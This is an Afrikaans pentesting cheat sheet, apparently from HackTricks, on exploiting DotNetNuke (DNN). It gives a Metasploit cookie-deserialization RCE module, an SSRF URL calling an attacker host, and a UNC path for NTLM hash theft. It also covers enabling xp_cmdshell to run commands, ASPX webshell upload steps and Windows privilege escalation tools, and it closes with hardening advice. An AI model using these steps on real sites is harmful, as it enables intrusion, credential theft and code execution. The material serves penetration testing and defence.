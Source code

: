 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

As jy as **administrateur** in DNN inlog, is dit maklik om **RCE** te verkry, maar 'n aantal *onaangetekende* en *post-auth* tegnieke is in die afgelope paar jaar gepubliseer. Die volgende spiekkaart versamel die nuttigste primitiewe vir beide offensiewe en defensiewe werk.

---
## Weergawe & Omgewing Enumerasie

* Kontroleer die *X-DNN* HTTP antwoordkop – dit openbaar gewoonlik die presiese platformweergawe.
* Die installasiewizard lek die weergawe in `/Install/Install.aspx?mode=install` (toeganklik op baie ou installasies).
* `/API/PersonaBar/GetStatus` (9.x) gee 'n JSON blob wat `"dnnVersion"` bevat vir lae-privilege gebruikers.
* Tipiese koekies wat jy op 'n lewende instansie sal sien:
* `.DOTNETNUKE` – ASP.NET vorms verifikasieticket.
* `DNNPersonalization` – bevat XML/serialiseerde gebruikersprofieldata (ou weergawe – sien RCE hieronder).

---
## Onaangetekende Exploitatie

### 1. Koekie Deserialisering RCE  (CVE-2017-9822 & opvolgings)
*Geaffekteerde weergawes ≤ 9.3.0-RC*

`DNNPersonalization` word op elke versoek gedeserialiseer wanneer die ingeboude 404 hanteraar geaktiveer is. Gemaakte XML kan dus lei tot arbitrêre gadgetkettings en kode-uitvoering.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Die module kies outomaties die regte pad vir gepatchte maar steeds kwesbare weergawes (CVE-2018-15811/15812/18325/18326). Exploitatie werk **sonder verifikasie** op 7.x–9.1.x en met 'n *geverifieerde* lae-regte rekening op 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Geaffekteerde weergawes < 9.13.8  –  Patch vrygestel April 2025*

'n Bypass van die ouer `DnnImageHandler` regstelling stel 'n aanvaller in staat om die bediener te dwing om **arbitraire GET versoeke** uit te reik (semi-blind SSRF). Praktiese impakte:

* Interne poortskandering / metadata diensontdekking in wolkontplooiings.
* Bereik gasheer wat andersins deur die Internet geblokkeer is.

Bewys-van-konsep (vervang `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Die versoek word in die agtergrond geaktiveer; monitor jou luisteraar vir terugroepe.

### 3. NTLM Hash Blootstelling via UNC Oorleiding  (CVE-2025-52488)
*Geaffekteerde weergawes 6.0.0 – 9.x (< 10.0.1)*

Spesiaal saamgestelde inhoud kan DNN laat probeer om 'n hulpbron te verkry met 'n **UNC pad** soos `\\attacker\share\img.png`. Windows sal gelukkig NTLM-onderhandeling uitvoer, wat die bediener-rekening hashes aan die aanvaller blootstel. Opgradeer na **10.0.1** of deaktiveer uitgaande SMB by die firewall.

### 4. IP Filter Omseiling  (CVE-2025-52487)
As administrateurs op *Host/IP Filters* staatmaak vir admin portaal beskerming, wees bewus dat weergawes voor **10.0.1** omseil kan word deur `X-Forwarded-For` in 'n omgekeerde proxy-scenario te manipuleer.

---
## Post-Authentisering na RCE

### Via SQL konsole
Onder **`Settings → SQL`** 'n ingeboude vrae venster laat uitvoering teen die webwerf databasis toe. Op Microsoft SQL Server kan jy **`xp_cmdshell`** aktiveer en opdragte genereer:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via ASPX webshell oplaai
1. Gaan na **`Settings → Security → More → More Security Settings`**.
2. Voeg `aspx` (of `asp`) by **Allowable File Extensions** en **Save**.
3. Blaai na **`/admin/file-management`** en laai `shell.aspx` op.
4. Trigger dit by **`/Portals/0/shell.aspx`**.

---
## Privilege Escalation op Windows
Sodra kode-uitvoering bereik is as **IIS AppPool\<Site>**, geld algemene Windows privilege-escalation tegnieke. As die boks kwesbaar is, kan jy benut:

* **PrintSpoofer** / **SpoolFool** om *SeImpersonatePrivilege* te misbruik.
* **Juicy/Sharp Potatoes** om *Service Accounts* te ontsnap.

---
## Versterking Aanbevelings (Blou Span)

* **Opgradeer** na ten minste **9.13.9** (herstel SSRF omseiling) of verkieslik **10.0.1** (IP-filter & NTLM probleme).
* Verwyder oorblywende **`InstallWizard.aspx*`** lêers na installasie.
* Deaktiveer uitgaande SMB (poorte 445/139) egress.
* Handhaaf sterk *Host Filters* op die rand proxy eerder as binne DNN.
* Blokkeer toegang tot `/API/RemoteContentProxy` as dit nie gebruik word.

## Verwysings

* Metasploit `dnn_cookie_deserialization_rce` module dokumentasie – praktiese ongemagtigde RCE besonderhede (GitHub).
* GitHub Security Advisory GHSA-3f7v-qx94-666m – 2025 SSRF omseiling & patch inligting.
{{#include ../../banners/hacktricks-training.md}}
